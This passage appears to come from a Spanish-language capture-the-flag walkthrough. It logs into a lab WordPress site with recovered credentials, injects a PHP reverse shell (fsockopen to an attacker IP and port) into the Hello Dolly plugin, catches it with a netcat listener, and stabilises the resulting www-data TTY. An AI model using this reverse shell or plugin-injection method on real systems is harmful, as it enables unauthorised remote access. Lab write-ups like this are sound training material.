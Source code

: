 Por lo que vemos nos saca las credenciales del usuario `pressi`, ahora nos logearemos en el `worpress`.

```
URL = http://pressenter.hl/wp-admin/
```

Y metemos las credenciales:

```
User = pressi
Pass = dumbass
```

Una vez dentro iremos a crearnos una `Reverse Shell` de la siguiente forma.

### Reverse Shell

Si nos vamos a la seccion de `plugins` veremos uno que viene por defecto en todos los `wordpress` llamado `Hellow Dolly`, aprovecharemos ese plugin para injectar codigo `php` y cuando lo activemos que lo ejecute, nos iremos principalmente a la seccion de `Herramientas` y dentro del desplegable seleccionaremos `Editor de archivos de plugins` la ultima opcion.

Dentro de aqui solo habra un archivo llamado `hello.php` dentro del mismo injectaremos una reverse shell de la siguiente forma.

```shell
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
```

Metiendo esa linea de codigo dentro de las aperturas del contenido de `php` le daremos al boton de `Actualizar archivo` y los cambios ya estaras guardados, ahora antes de activar el plugin, tendremos que estar a la escucha.

```shell
nc -lvnp <PORT>
```

Y una vez hecho esto, en la pagina de `wordpress` nos vamos a la seccion de `plugins` y el plugin llamado `Hellow Dolly` le daremos a `Activar`.

Nos saltara un error en `wordpress` pero si vamos a la escucha habremos obtenido una shell con el usuario `www-data`.

```
connect to [192.168.5.145] from (UNKNOWN) [172.18.0.2] 46138
whoami
www-data
```

Sanitizamos la shell (TTY).

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```
